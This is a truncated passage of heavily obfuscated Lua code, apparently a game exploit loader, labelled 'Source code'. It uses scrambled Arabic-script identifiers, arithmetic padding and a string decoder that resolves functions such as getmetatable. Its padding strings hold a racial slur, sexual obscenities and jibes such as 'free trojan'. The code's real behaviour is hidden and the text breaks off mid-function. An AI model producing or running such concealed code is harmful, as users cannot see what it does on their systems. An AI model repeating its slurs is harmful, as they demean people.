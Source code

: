 ,nil,nil;(function() _msec=(function(e,l,o)local G=l["ضنؠسڝد؃حسڪ"];local J=o[e[(-73+0x2d6)]][e["قدآحڝحنجڝآقؠنڝ"]];local p=(59-0x37)/((95-(0xaf+-118))-36)local S=((0xd8-((442-(66856/(-#"require"+(0xe95a/238))))+-#'fish was here'))+-#[[Fuck nigger wank shit dipshit cunt bullshit fuckyou hoe lol]])-(4+-#{(function()return{','}end)(),",";{}})local L=o[e[(0x1ad-265)]][e["دئټقڝآحض؃جدؠؠآز"]];local g=(0x62/(((-#[[dont use it anymore]]+(-113+0x170))+-0x77)+-#"dont use it anymore"))+(121-0x77)local z=o[e[(601+-#{15;",",18})]][e["ڪڝكضآدجحؠضآټدؠ"]]local d=(91-0x59)-(0x3f-(((286+(-159+0x31))+-#'Hi skid')-0x6b))local i=((-0x61+((479+-#{'}';(function()return#{('MpFbMK'):find("\70")}>0 and 1 or 0 end),45,'nil';(function()return#{('MpFbMK'):find("\70")}>0 and 1 or 0 end);18,'nil'})/4))+-#[[I like gargling cum]])local b=((0x53-(0x1d7c/(16872/(338+-0x6e))))+0x15)local O=(5+-#{85,'nil','}'})local U=(-#{27,27;{};(function()return{','}end)();'}'}+7)local r=((((337+-0x45)+-0x37)+-0x78)+-0x5b)local h=(7+-#{62,'}',",";1,(function()return#{('LlLLlk'):find("\76")}>0 and 1 or 0 end)})local w=((0x5b-((2331/((-#"test"+(0x44e8-8830))/0xee))+-#"Hi skid"))+-#"xenny its znugget please respond")local s=(-#{1;69,69,'nil',(function()return{','}end)();(function()return{','}end)();(function()return#{('kPpPfb'):find("\112")}>0 and 1 or 0 end)}+10)local t=((304-(0x8a78/((0x368-461)-0xf3)))-0x5a)local k=((579-(-#{(function()return{','}end)();{},'}',(function()return{','}end)(),(function()return#{('FOfBKO'):find("\102")}>0 and 1 or 0 end)}+314))/0x5a)local c=(9+-#{'}';(function()return{','}end)(),84,84,'}','}'})local x=(-#[[test123]]+((-0x75+(-77+(87804/0x51)))/0x59))local u=(72-((-#[[Little kids]]+((31978+-#{(function()return#{('fOmlkF'):find("\109")}>0 and 1 or 0 end);{};{};50})/219))+-67))local M=(8+-#{139,{};'nil',{}})local P=(((-80-(22+-#{(function()return#{('OkmkOO'):find("\109")}>0 and 1 or 0 end);68;{}}))+159)-56)local _=((((((-0x60+82)+-52)+0xe)+0x55)+-#"print")/0x7)local B=(11+-#{",";{},(function()return{','}end)();70;",",70;'}'})local C=(0x34/(0x69-(-#[[test 123]]+(299-(479-0x118)))))local A=e[((-#{{};(function()return#{('fPHhkM'):find("\72")}>0 and 1 or 0 end),(function()return{','}end)();1,","}+1328)/0x1)];local H=o[e[(0x5c40/144)]][e["ڪ؃جن؃زؠ؃"]];local I=o[(function(e)return type(e):sub(1,1)..'\101\116'end)('ڪضؠجزقضؠ')..'\109\101'..('\116\97'or'آضجآ؃ڪن؃')..e[(-0x25+(97790/0x9a))]];local D=o[e[(-#{65,87,(function()return{','}end)();{}}+602)]][e["ڝنڝؠضنحننجټدسڝآ"]];local v=(122-0x78)-((-#[[me big peepee]]+(0xea-(383-0xe0)))+-0x3c)local y=(0x20+(-0x17ca/(-#'xenny its znugget please respond'+(0x5f78/104))))-(0x27+-37)local F=o[e[(-#'require'+(41040/0xf0))]][e["ضآئدحؠضڝدن"]];local n=function(o,e)return o..e end local j=(63+-0x3b)*(((411+-0x36)-238)+-115)local q=o[e["ضزضددڪئئآآ"]];local f=(212/0x6a)*(13952/(-#'black mess more like white mesa'+((-#"Two trucks having sex"+(0x2b34+-119))/78)))local T=(1115+-0x5b)*(438/(-18+(0x4afd/81)))local K=((((36540/(0x38c4/173))+-#[[loadstring]])-225)-148)local m=(((3308-(1791+-0x79))/0x7e)+-#[[free trojan]])*(-0x7c+126)local N=o[e["كزضڝڪدئ؃ؠننآس"]]or o[e[((0x48b98-148978)/0xf9)]][e["كزضڝڪدئ؃ؠننآس"]];local a=(((-5904/(-#"This is working now"+(419-0x100)))+-#"require")+0x130)local e=o[e["ض؃ټئئسقننئضحڪزڪحن"]];local z=(function(n)local r,l=2,0x10 local o={j={},v={}}local a=-d local e=l+S while true do o[n:sub(e,(function()e=r+e return e-S end)())]=(function()a=a+d return a end)()if a==(j-d)then a=""l=v break end end local a=#n while
e
